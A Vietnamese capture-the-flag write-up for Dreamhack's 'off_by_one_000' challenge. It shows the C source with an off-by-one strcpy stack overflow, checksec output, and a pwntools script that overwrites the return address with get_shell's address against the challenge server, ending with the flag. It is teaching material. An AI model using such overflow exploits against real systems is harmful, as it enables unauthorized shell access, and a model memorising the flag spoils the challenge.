

**1. Tìm lỗi**

Ta có source như sau:

```
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>
#include <string.h>

char cp_name[256];

void get_shell()
{
    system("/bin/sh");
}

void alarm_handler()
{
    puts("TIME OUT");
    exit(-1);
}

void initialize()
{
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

int cpy()
{
    char real_name[256];
    strcpy(real_name, cp_name);
    return 0;
}

int main()
{
    initialize();
    printf("Name: ");
    read(0, cp_name, sizeof(cp_name));

    cpy();

    printf("Name: %s", cp_name);

    return 0;
}

```

Chương trình cho phép nhập vào biến `cp_name` rồi copy qua biến `real_name` bằng hàm `cpy`. Nhưng ở đây không giới hạn số byte nhập vào nên có lỗi `bof`.

**2. Ý tưởng**

Lúc cho nhập biến vào copy qua thì không giới hạn byte nên có lỗi nên nhập tràn biến tính toán từ `real_name` đến `ret` để nhập byte rác vào `cp_name`. Cuối cùng là gán địa chỉ hàm `get_shell` vào.

Dùng lệnh `checksec` kiểm tra:

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

Vậy ý tưởng trên thực hiện tốt.

**3. Khai thác**

```
   0x0804865a <+14>:    lea    eax,[ebp-0x100]
   0x08048660 <+20>:    push   eax
   0x08048661 <+21>:    call   0x8048470 <strcpy@plt>
```

Ta thấy biến `real_name` cách ebp 0x100 byte nên sẽ cách `ret` nhập hết địa chỉ hàm `get_shell` cho nhanh

```
from pwn import *

exe = ELF('off_by_one_000', checksec=False)
#r = process(exe.path)
r = remote('host3.dreamhack.games', 12317)

log.info("get shell: " + hex(exe.sym['get_shell']))
payload = p32(exe.sym['get_shell'])*64
r.sendafter(b'Name: ', payload)
r.interactive()
```

**4. Lấy flag**



`Flag: DH{fef043d0dbe030d01756c23b78a660ae}`